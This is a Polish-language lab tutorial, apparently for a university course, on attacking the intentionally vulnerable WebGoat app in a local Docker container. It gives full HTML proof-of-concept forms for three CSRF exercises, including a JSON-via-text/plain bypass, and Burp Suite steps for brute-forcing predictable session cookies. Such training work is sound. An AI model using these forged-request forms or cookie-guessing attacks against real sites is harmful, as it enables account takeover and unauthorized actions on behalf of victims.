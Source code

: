 
## INSTALACJA 

Na początku musimy pobrać repozytorium na którym znajduje się nasze oprogramowanie WebGoat którego będziemy używać.

  https://github.com/WebGoat/WebGoat

Dodatkowo będziemy potrzebowali dockera 

  https://www.docker.com/products/docker-desktop/
  https://www.apachefriends.org/pl/download.html

Po instalacji wszystkich 3 rzeczy możemy przejść do części praktycznej naszego projektu. 
### URUCHOMIENIE WEBGOAT
```bash
  docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```
  W przypadku jakichś problemów z uruchomieniem kontenera możemy spróbować uruchomić go na innym porcie, należy zapamiętać ten port gdyż będzie on wykorzystywany  w dalszej części.


# ZADANIA 
### ZADANIE 1
1. Pierwszym krokiem jest utworzenie profilu użytkownika
![App Screenshot](https://snipboard.io/ejtuPR.jpg)

2. Następnie przechodzimy do zakładki Server-side Request Forgery i wybieramy Cross-Site Request Forgeries. Zalecamy zaponzać się z dodatkową treścią umieszczoną na pierwszych dwóch slajdach w celu łatwiejszego zrozumienia tematu.

3. Teraz przechodzimy do zakładki Basic Get CSRF Exercise, w której wykonamy pierwsze zadanie. W tym momencie musimy uruchomić serwer apache. Celem tego zadania jest uruchomienie poniższego formularza z zewnętrznego źródła podczas logowania. Odpowiedź będzie zawierać "flagę" (wartość liczbową) którą wpiszemy poniżej.
4. Tworzymy plik do którego musimy wkleić kod  
```html
<html>
	<body>
	<script>history.pushState('','', '/')</script>
	 <form action="http://localhost:{NUMER_PORTU}/WebGoat/csrf/basic-get-flag" method="POST">
		<input type="hidden" name="csrf" value="false" />
		<input type="hidden" name="submit" value="Submit&#32;Query"/>
		<input type="submit" value="Submit request" />
	 </form>
	</body>
</html>
```
Po uruchomieniu tego kodu powiniśmy otrzymać status, że zadanie zostało wykonane poprawnie. Dodatkowo zwrócona została wartość liczoba flagi, którą musimy wkleić do formularza.
<br>![App Screenshot](https://snipboard.io/CZyGlD.jpg)

### ZADANIE 2
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytania wysyłane poprzez formularz z opiniami. Gdy dodamy opinię powiniśmy zauważyć wysłane zapytanie metodą POST. 
2. W tym przypadku również będziemy tworzyć plik z naszym kodem. Będzie potrzebne nam:
- post url request
- content type
- parametry 
```html
<html>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/review method=post enctype='application/x-www-form-urlencoded; charset=UTF-8'>
		<input name='pierwszy_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='drugi_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='trzeci_parametr' value='wartosc_odczytana' type='hidden'> 
		<input type=submit value="Submit">
	</form>
</html>
```
	<input name='' value='totalnielosowe' type='hidden'> - sprawia że ofiara nie jest świadoma ataku który jest przeprowadzany.
3. Po wykonaniu powyższego kodu i odświeżenia głównej strony jesteśmy w stanie zobaczyć dwie opinie.

### ZADANIE 3
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytanie wysyłane poprzez wiadomość którą uzupełniliśmy.

2. Warto zwrócić uwagę tutaj na content type.
![App Screenshot](https://snipboard.io/9OYCsH.jpg)

3. W przypadku zapytania POST i użycia content-type innego niż 3 wyżej wymienione zapytanie nie jest już wtedy proste, jest uznawane jako "preflighted request". 

4. W zapytaniu preflighted request wykonywane są dodatkowe sprawdzenia bezpieczeństwa przez serwer w celu sprawdzenia czy na prawdę jesteśmy autoryzowanym użytkownikiem do wykonania zapytania. Dlatego chcemy unikać tego typu zapytań. 

5. Zmienimy nasze zapytanie aby wykorzystywało "text/plain" zamiast "application/json"
```html
<html>
	<title>JSON CSRF POC</title>
	<center> 
	<h1>JSON CSRF POC </h1>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/feedback/message method=post enctype ="application/json">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat tekst","ignore_me":"'value = 'test"}' type=hidden>
	<input type=submit value="Submit">
	</form>
	</center>
</html>
```

6. Próbujemy zamaskować typ z json aby był traktowany jako zwykły tekst, dlatego używamy takiego sposobu przekazania parametrów. Parametr ignore_me jest używany w celu ominięcia problemu w którym jest to traktowane jako json.

### ZADANIE 4
1. Uruchamiamy oprogramowanie Burp Suite Community Edition, ustawiamy serwer proxy w ustawieniach windowsa i otwieramy odpowiednią przeglądarke (dokładna instrukcja konfiguracji na Upelu przedmiotu, zakładka "Zajęcia laboratoryjne numer 2")

2. Przechodzimy do zakładki (A1) Broken access control i wybieramy Hijack a session.

3. W HTTP history musimy odszukać żądanie które zawiera ciasteczka <code>hijack_cookie</code> i przesłać je do sequencera
   <br> ![App Screenshot](https://snipboard.io/LsNziA.jpg)

4. W sequencerze za pomocą live capture generujemy kilkadziesiąt/kilkaset tokenów i zapisujemy je do pliku tekstowego

5. Możemy zauważyć, że klucze są podzielone na dwie części, a ich wartości nie są losowe - pierwsza część jest czymś w rodzaju numeru użytkownika, a druga przypomina timestamp.
   <br> ![App Screenshot](https://snipboard.io/OLf5ph.jpg)

6. Żeby przeprowadzić atak brutalny należy przesłać zapytanie z ciasteczkiem <code>hijack_cookie</code> do intrudera i metodą prób i błędów próbować znaleźć token używany przez innego użytkownika.
Jeśli w zapytaniu nie przesyłane jest ciasteczko <code>hijack_cookie</code>, to trzeba jeszcze raz wysłać formularz.
Do znalezienia klucza potrzeba troche szczęścia, raczej nie znajdziecie go przy pierwszej próbie ataku.
